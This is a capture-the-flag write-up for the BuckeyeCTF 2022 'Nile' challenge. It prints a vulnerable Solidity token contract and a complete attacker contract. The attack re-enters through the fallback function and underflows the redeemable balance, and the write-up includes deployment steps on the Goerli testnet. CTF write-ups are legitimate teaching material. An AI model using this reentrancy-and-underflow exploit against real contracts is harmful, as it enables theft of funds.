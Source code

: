 # Nile - BuckeyeCTF 2022
### Introduction
Nile is a beginner misc. task in the 2022 BuckeyeCTF. The project description is as follows:

I wrote my first smart contract on Ethereum, deployed onto the Görli testnet, you have got to check it out! To celebrate it's launch, I'm giving away free tokens, you just have to redeem your balance. Connect to the server to see the contract address.

`nc -v nile.chall.pwnoh.io 13379`

### Process
Running the netcat gives the following:
```
Hello! The contract is running at 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af on the Goerli Testnet.
Here is your token id: 0x0aff2a3e450768b95c9e99196842a636
Are you ready to receive your flag? (y/n)
```
The given token id is different every time the netcat is run. The given address for the contract links to a page on the Ethernet Goerli Testnet Network [here](https://goerli.etherscan.io/address/0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af). This links to a smart contract, Nile, written in [Solidity](https://docs.soliditylang.org/en/v0.8.17/#):
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;


contract Nile {
    mapping(address => uint256) balance;
    mapping(address => uint256) redeemable;
    mapping(address => bool) accounts;

    event GetFlag(bytes32);
    event Redeem(address, uint256);
    event Created(address, uint256);
    
    function redeem(uint amount) public {
        require(accounts[msg.sender]);
        require(redeemable[msg.sender] > amount);

        (bool status, ) = msg.sender.call("");

        if (!status) {
            revert();
        }

        redeemable[msg.sender] -= amount;

        balance[msg.sender] += amount;

        emit Redeem(msg.sender, amount);
    }

    function createAccount() public {
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 100;
        accounts[msg.sender] = true;

        emit Created(msg.sender, 100);
    }

    function createEmptyAccount() public {
        // empty account starts with 0 balance
        balance[msg.sender] = 0;
        accounts[msg.sender] = true;
    }

    function deleteAccount() public {
        require(accounts[msg.sender]);
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 0;
        accounts[msg.sender] = false;
    }

    function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
}
```
I chose to run the smart contracts on [Remix](https://remix.ethereum.org). Note: make sure to match the compiler version to the version called with `pragma solidity ^x.y.z;` at the top of the file. 

Reading through the contract, we can see that we want to call the function `getFlag()`. In order to call `getFlag()` we need `accounts[msg.sender] == true` and `balance[msg.sender] > 1000`.  `redeem(amount)` can increase `balance[msg.sender]`, however, the amount we can redeem total must be smaller than `redeemable[msg.sender]`, which is set to 100 every time `createAccount()` is called, but we need 1000 tokens. 

The solution here is to cause an **integer underflow** in `redeemable[msg.sender]` so that we can redeem an amount greater than 99 due to the underflow. This works because the Solidity version is 0.7.6 and in solidity versions before 0.8.0, math overflows do not revert by default ([found here](https://solidity-by-example.org/hacks/overflow/)).

#### Integer Underflow
In order to cause integer underflow, we will utilize Solidity's [**fallback function**](https://docs.soliditylang.org/en/v0.8.12/contracts.html#fallback-function). `msg.sender.call("")` calls the fallback function ([found here](https://ethereum.stackexchange.com/questions/42521/what-does-msg-sender-call-do-in-solidity)) which is called in the `redeem()` function. `msg.sender` points to the person or contract who is currently connecting to the contract ([found here](https://stackoverflow.com/questions/48562483/solidity-basics-what-msg-sender-stands-for)). So we can write another contract which calls the Nile contract's `redeem()` function which would then call the fallback function of the contract we write. 

In the fallback function itself, we want to call `deleteAccount()` and then `createEmptyAccount()`. `deleteAccount()` sets `redeemable` to 0, and `createEmptyAccount()`, unlike `createAccount()`, does not initialize `redeemable` to anything. So, when `redeemable[msg.sender] -= amount;` is called, we would subtract some positive value from 0, resulting in integer underflow. We then need to write a couple other functions to call `redeem()` and `getFlag()`. 
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./Nile.sol";

contract Thing {
    Nile nile;
    
    constructor() {
        nile = Nile(0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af);
    }
    
    function underflow() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",99));
        require(result, "Call has failed");
    }

    function flag() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("getFlag(bytes32)",0x8f9154156d73b0fcda140cb2b7b6ddf900000000000000000000000000000000));
        require(result, "Call has failed");
    }

    function account() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("createAccount()",""));
        require(result, "Call has failed");
    }

    function bigRedeem() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",9999));
        require(result, "Call has failed");
    }

    receive() external payable {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("deleteAccount()",""));
        require(result, "Call has failed");
        (bool result2, ) = address(nile).call(abi.encodeWithSignature("createEmptyAccount()",""));
        require(result2, "Call has failed");
    }
}
```
Details about the code I used can be found in the Code section.
The order of the functions to be called is as follows:

0. The constructor calls the address of the Nile contract that is on the blockchain network, which should be done when the smart contract is deployed.
1. `account()` to create an account. 
2. `underflow()` calls `redeem(99)` which will call the fallback function. The fallback function is `receive() external payable` which calls `deleteAccount()` and `createEmptyAccount()`. 
3. `bigRedeem()` is called after the underflow, redeeming 9999 tokens. 
4. `flag()` which calls `getFlag()` with the token given from the netcat. The token has to be padded right to reach 32 bytes since `getFlag()` only accepts `bytes32`. 

After calling `getFlag()` with the token given by the netcat, return to the terminal, type `y`, and get the flag. 

#### How to Run This (Remix & Metamask)
1. Set up a crypto wallet (I used Metamask plugin). 
2. Use a Goerli faucet ([here](https://goerlifaucet.com) or [here](https://goerli-faucet.pk910.de)) to give yourself some ~~fake~~ Eth.
3. Import contract Thing. Compile it. 
4. To test the code on VM servers:  
	1. Import the Nile smart contract. 
	2. Deploy the Nile smart contract to a VM server and copy its local address (which can be found under "Deployed Contracts"):
	![Copy Local Address.png|](https://github.com/Sinkasha/buckeyeCTF-writeups/blob/main/Copy%20Local%20Address.png)
	3. Paste the local address into the constructor in contract Thing. 
	4. Deploy Thing, run the functions. Check that each function call on Thing emits an event in logs (more on this in the Code section). 
	5. Make sure to change the address back to the actual address instead of the local address when running it on the Goerli test network. 
5. Run the netcat to get the token id and paste it into contract Thing.
6. Deploy Thing to Injected Provider - Metamask. 
7. Run the functions in the order given above, making sure to wait for the transaction to be confirmed before running the next function. If everything is running correctly, the transactions should show up on the Etherscan blockchain network. 
8. Go back to the console and type `y` to get the flag. 

#### Code
This section is dedicated to Solidity / Remix things.

Importing the contract and then calling the address in the constructor seemed to work better than other options such as:
```
address nile = 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af;
nile.call(abi.encodeWithSignature("function()",""));
```
or creating a Nile object:
```
Nile nile = Nile(0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af)
nile.call(abi.encodeWithSignature("function()",""));
```

Method calls from a different contract only worked for me with the following format: 
```
(bool result, ) = address(nile).call(abi.encodeWithSignature("createAccount()",""));
require(result, "Call has failed");
(bool result2, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",9999));
require(result2, "Call has failed");
```
Calling it in any other way gave me an out of gas but Contract Execution Completed error on the Etherscan blockchain network. Despite it saying that Contract Execution Completed, this did not work. Format found [here](https://ethereum.stackexchange.com/questions/84839/status-is-successful-but-got-internal-transaction-out-of-gas). `abi.encodeWithSignature()` found [here](https://ethereum.stackexchange.com/questions/9733/calling-function-from-deployed-contract). There should be no spaces between the parameters and the parameters should use their full names (`uint256` instead of just `uint`)([found here](https://ethereum.stackexchange.com/questions/67572/abi-encodewithsignature-did-not-work)). 

When running this smart contract on Remix, ensure that the methods in contract Nile are being called from contract Thing by checking the logs in the transaction details. Some of the functions in Nile `emit` events which will be output to the logs. Use this to ensure that the contract is actually calling another contract's function. 
![Example of Working Log.png](https://github.com/Sinkasha/buckeyeCTF-writeups/blob/main/Example%20of%20Working%20Log.png)
*A `Thing.account()` call which emits an event for creating an account.*

